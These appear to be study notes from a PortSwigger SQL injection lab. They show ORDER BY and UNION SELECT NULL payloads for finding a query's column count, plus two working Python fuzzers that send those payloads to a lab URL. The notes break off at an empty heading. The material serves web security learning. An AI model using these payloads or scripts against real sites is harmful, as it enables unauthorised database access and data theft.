 # SQL Injection:

## 1. Determining number of columns return from a query:
### Using ORDER BY statement:
```sql
' ORDER BY 1--
# We can keep on increasing the number i.e. currently 1 until the server throws an error.
```
-> A simple python fuzzer that would keep on increasing the number until the response gets in the range of 500+:
```python
#!/usr/bin/env python3

import requests

main_url = "https://acfb1f101ebee2aa80ce2a3c002100e2.web-security-academy.net/filter?category="

NUM = 1
while True:
	url = main_url
	payload = f"' ORDER BY {NUM} --"
	url += payload
	print(f"[*] Fuzzing with payload : {payload}", end = '')
	r = requests.get(url)
	print(f" : -> {r.status_code}")
	if r.status_code >= 500:
		break
	NUM += 1
	
print(f"\n[+] Payload : ' ORDER BY {NUM - 1} --")
print(f"[+] Number of columns returned : {NUM - 1}")
```

### Using null queries:
```sql
' UNION SELECT NULL --
# As long as some error occurs or when an error occurs, that would determine the number of tables existing in the database
```
-> A simple python fuzzer that would keep on fuzzing until the server gives a response besides 500:

```python
#!/usr/bin/env python3

import requests

main_url = "https://acfb1f101ebee2aa80ce2a3c002100e2.web-security-academy.net/filter?category="

NULL = 'NULL'
while True:
	url = main_url
	payload = f"' UNION SELECT {NULL} --"
	url += payload
	print(f"[*] Fuzzing with payload : {payload}", end = '')
	r = requests.get(url)
	print(f" : -> {r.status_code}")
	if r.status_code != 500:
		break
	NULL += ',NULL'

print(f"\n[+] Payload : {payload}\n[+] Number of columns returned: {len(payload.split(','))}")
```
-> Output from Portswigger UNION lab:
![[Pasted image 20210818152140.png]]

#### Note:
-   The reason for using `NULL` as the values returned from the injected `SELECT` query is that the data types in each column must be compatible between the original and the injected queries. Since `NULL` is convertible to every commonly used data type, using `NULL` maximizes the chance that the payload will succeed when the column count is correct.

## 2. 